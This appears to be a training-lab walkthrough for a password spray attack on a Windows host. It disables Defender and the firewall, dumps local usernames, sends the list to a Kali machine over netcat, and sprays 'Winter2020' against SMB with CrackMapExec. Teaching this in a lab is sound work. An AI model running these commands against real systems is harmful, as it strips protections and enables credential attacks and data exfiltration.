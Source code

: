 
# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

Now, let's open a command Prompt:

![](../AppLocker/attachments/cmd-command-prompt.png)

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-26-22.png)

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.


C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-37-09.png)

Next we are going to password spray against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and the following command.

`sudo nc -lv -p 2222 > users` (pass:clabs)

![](attachments/kali-netcat.png)

Now switch to command prompt on windows machine. 

![](../AppLocker/attachments/cmd-command-prompt.png)

Disable firewall.
C:\Tools> `netsh advfirewall set allprofiles state off`

![](attachments/disable-firewall.png)

And transfer the file to kali by running the next command 

C:\Tools> `nc <IP> 2222 < ..\temp\UserList.txt` (Cancel out netcat (Ctrl-C) after 3 seconds.).

![](attachments/win-netcat.png)

Check that users file exists in home directory of clabs (/home/clabs):

![](attachments/kali-home.png)

We will use the tool CrackMapExec for password spray attack over smb. The tool supports other protocols like ssh, winrm, ldap etc. 

The command looks like this - `cme smb <IP> -u users -p Winter2020 --shares`.

![](attachments/cme-result.png)

We can see that the user Cristopher was succesfully authenticated to our target machine.

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

![](attachments/Clipboard_2020-06-16-10-39-16.png)




